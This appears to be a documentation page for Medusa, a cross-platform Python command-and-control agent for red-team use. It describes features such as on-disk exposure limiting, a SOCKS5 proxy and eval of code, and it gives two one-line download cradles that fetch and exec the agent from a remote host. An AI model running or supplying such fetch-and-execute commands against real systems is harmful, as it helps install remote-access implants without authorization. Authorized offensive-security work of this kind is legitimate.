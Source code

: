 +++
title = "Medusa"
chapter = false
weight = 5
+++

![logo](/agents/medusa/medusa.svg?width=200px)
## Summary

Medusa is a cross-platform Python agent compatible with Python 2.7 and 3.8.

### Highlighted Agent Features

Python is an incredibly popular programming language and is often installed by default on many operating systems. Python 2.7, for example, is currently available on the latest macOS installs (though expected to be discontinued).
Default libraries, such as `Cocoa` and `ctypes`, allow access to Objective-C APIs and functionality through Windows DLLs.

The Medusa agent itself has several key features including:
- Support for dynamic loading/unloading of functionality to limit exposure of agent capabilities on-disk. 
- A SOCKS5 proxy compatible across Python 2.7 and 3.8, and across macOS, Windows and Linux.
- Encrypted comms.
- `Eval()` of Python code to dynamically extend functionality.

With the ability to execute arbitrary script on the command-line, a rudementary download cradle can be used, such as the below (notably, not proxy-aware):
```
python3 -c "import urllib.request; exec(urllib.request.urlopen('https://[REMOTE_HOST]/medusa.py').read())" &
```

Or for Python 2.7:
```
python -c "import urllib2;exec(urllib2.urlopen('https://[REMOTE_HOST]/medusa.py').read())" &
```

### Important Notes
Each job is executed in a new thread. Long-running jobs can be viewed with the `jobs` command and, where a 'stop' functionality has been implemented, they can be killed with `jobkill`.

## Authors
@ajpc500


